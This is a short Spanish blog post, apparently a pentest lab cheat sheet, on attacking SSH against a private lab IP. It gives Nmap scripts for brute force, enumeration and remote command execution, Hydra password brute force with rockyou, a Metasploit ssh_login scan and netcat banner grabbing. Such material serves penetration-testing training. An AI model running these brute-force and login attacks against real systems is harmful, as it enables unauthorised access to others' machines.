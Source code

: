 ```yaml
---
layout: post
author: Sergio Salgado
---
```


## [](#header-2)Pentest a SSH

### [](#header-3)Nmap

```s
#BruteForce
nmap -p 22 --script ssh-brute --script-args userdb=/root/users 192.40.231.3
#Algoritmos de encriptacion
nmap -p 22 --script ssh2-enum-algos 192.40.231.3

#Extrayendo el ssh-rsa
nmap -p 22 --script ssh-hostkey --script-args ssh_hostkey=full 192.40.231.3

#Detectando metodos de autenticacion
nmap -p 22 --script ssh-auth-methods --script-args="ssh.user=admin" 192.40.231.3

#Ejecutando comandos por ssh con Nmap
nmap -p 22 --script ssh-run --script-args="ssh-run.cmd=cat /home/student/FLAG, ssh-run.username=student,ssh-run.password=" 192.40.231.3
```
### [](#header-3)Hydra
```s
hydra -l student -P /usr/share/wordlists/rockyou.txt ssh://192.40.231.3
```
### [](#header-3)Msfconsole
```s
use auxiliary/scanner/ssh/ssh_login
set rhost 192.40.231.3
set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
set STOP_ON_SUCCESS true
set verbose true
exploit
```

### [](#header-3)Banner grabing con netcat

```s
nc 192.40.231.3 22
```